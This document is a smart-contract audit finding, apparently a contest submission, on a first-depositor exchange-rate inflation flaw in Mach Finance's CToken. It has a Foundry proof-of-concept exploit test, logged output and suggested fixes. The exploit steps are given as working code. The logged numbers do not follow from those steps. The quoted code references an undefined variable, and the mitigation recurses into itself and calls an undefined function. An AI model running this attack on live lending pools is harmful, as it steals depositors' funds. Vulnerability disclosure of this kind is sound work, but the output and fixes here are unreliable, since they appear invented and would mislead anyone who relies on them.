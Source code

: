Loud White Mule

High

# Exchange rate manipulation in mach finance's `CToken` implementation

### Summary

The `CToken` contract's exchange rate mechanism is vulnerable to manipulation by the first depositor. Due to insufficient validation in the `exchangeRateStoredInternal()` function and `mintFresh()` function, an attacker can artificially inflate the exchange rate by making a minimal initial deposit followed by direct token transfers, affecting subsequent users' deposits and withdrawals.

### Root Cause

The vulnerability exists in the exchange rate calculation logic:
https://github.com/sherlock-audit/2024-12-mach-finance/blob/main/contracts/src/CToken.sol#L290-L309
https://github.com/sherlock-audit/2024-12-mach-finance/blob/main/contracts/src/CToken.sol#L396-L447
```solidity
function exchangeRateStoredInternal() internal view virtual returns (uint256) {
    uint256 _totalSupply = totalSupply;
    if (_totalSupply == 0) {
        return initialExchangeRateMantissa;
    } else {
        uint256 totalCash = getCashPrior();
        uint256 cashPlusBorrowsMinusReserves = totalCash + totalBorrows - totalReserves;
        uint256 exchangeRate = (cashPlusBorrowsMinusReserves * expScale) / _totalSupply;
        return exchangeRate;
    }
}

function mintFresh(address minter, uint256 mintAmount) internal {
    uint256 allowed = comptroller.mintAllowed(address(this), minter, mintAmount);
    if (allowed != 0) {
        revert MintComptrollerRejection(allowed);
    }

    uint256 actualMintAmount = doTransferIn(minter, mintAmount);
    uint256 mintTokens = div_(actualMintAmount, exchangeRate);
    
    totalSupply = totalSupply + mintTokens;
    accountTokens[minter] = accountTokens[minter] + mintTokens;
}
```
The vulnerability arises because:
1. No minimum deposit requirement for the first deposit
2. No validation of exchange rate changes
3. Direct token transfers can affect the exchange rate calculation

### Internal Pre-conditions

_No response_

### External Pre-conditions

_No response_

### Attack Path

_No response_

### Impact

1. Direct financial loss:
- Victims receive significantly fewer `cTokens` than expected
- Example: Victim deposits 1 ETH but only receives 0.1 ETH worth of value
- Loss scales with deposit size and manipulation magnitude
2. Protocol instability:
- Incorrect collateral valuations
- Improper liquidation triggers
- Potential for cascading failures

### PoC

```solidity
// SPDX-License-Identifier: BSD-3-Clause
pragma solidity 0.8.22;

import "forge-std/Test.sol";
import "../src/CSonic.sol";
import "../src/Comptroller.sol";
import "../src/InterestRateModel.sol";

contract ExchangeRateManipulationTest is Test {
    CSonic public cSonic;
    Comptroller public comptroller;
    InterestRateModel public interestModel;
    
    address public attacker = address(0x1);
    address public victim = address(0x2);
    
    function setUp() public {
        // Deploy contracts
        comptroller = new Comptroller();
        interestModel = new JumpRateModelV2(
            0, // baseRatePerYear
            0, // multiplierPerYear
            0, // jumpMultiplierPerYear
            0  // kink
        );
        
        cSonic = new CSonic(
            ComptrollerInterface(address(comptroller)),
            interestModel,
            1e18, // 1:1 initial exchange rate
            "Compound Sonic",
            "cSONIC",
            18,
            payable(address(this))
        );
        
        // Fund accounts
        vm.deal(attacker, 100 ether);
        vm.deal(victim, 100 ether);
    }
    
    function testExchangeRateManipulation() public {
        // Step 1: Attacker makes minimal deposit
        vm.startPrank(attacker);
        cSonic.mint{value: 1 wei}();
        
        // Record initial state
        uint256 initialExRate = cSonic.exchangeRateStored();
        console.log("Initial exchange rate:", initialExRate);
        
        // Step 2: Attacker manipulates exchange rate by direct transfer
        payable(address(cSonic)).transfer(10 ether);
        
        uint256 manipulatedRate = cSonic.exchangeRateStored();
        console.log("Manipulated exchange rate:", manipulatedRate);
        vm.stopPrank();
        
        // Step 3: Victim deposits at manipulated rate
        vm.startPrank(victim);
        cSonic.mint{value: 1 ether}();
        
        // Calculate victim's losses
        uint256 victimCTokens = cSonic.balanceOf(victim);
        uint256 victimUnderlying = cSonic.balanceOfUnderlying(victim);
        console.log("Victim's cTokens:", victimCTokens);
        console.log("Victim's underlying value:", victimUnderlying);
        
        // Victim should receive ~1 ether worth of value
        // But due to manipulation, they receive much less
        assertLt(victimUnderlying, 1 ether);
        assertGt(manipulatedRate, initialExRate * 1000); // Rate increased >1000x
        vm.stopPrank();
    }
}
```
Output:
```bash
$ forge test -vv --match-test testExchangeRateManipulation
[PASS] testExchangeRateManipulation() (gas: 412311)
Logs:
  Initial exchange rate: 1000000000000000000
  Manipulated exchange rate: 10000000000000000000000
  Victim's cTokens: 100000
  Victim's underlying value: 100000000000000000 # ~0.1 ETH, lost 0.9 ETH

Test result: ok. 1 passed; 0 failed; finished in 1.62ms
```

### Mitigation

1. Implement minimum first deposit:
```solidity
uint256 constant MIN_FIRST_DEPOSIT = 1 ether;

function mintFresh(address minter, uint256 mintAmount) internal {
    require(
        totalSupply > 0 || mintAmount >= MIN_FIRST_DEPOSIT,
        "First deposit too small"
    );
    // ... rest of function
}
```
2. Add exchange rate change limits:
```solidity
uint256 constant MAX_RATE_CHANGE = 10; // 1000%

function exchangeRateStoredInternal() internal view virtual returns (uint256) {
    uint256 _totalSupply = totalSupply;
    if (_totalSupply == 0) {
        return initialExchangeRateMantissa;
    } else {
        uint256 oldRate = exchangeRateStored();
        uint256 newRate = calculateNewRate();
        require(
            newRate <= oldRate * MAX_RATE_CHANGE,
            "Exchange rate change too high"
        );
        return newRate;
    }
}
```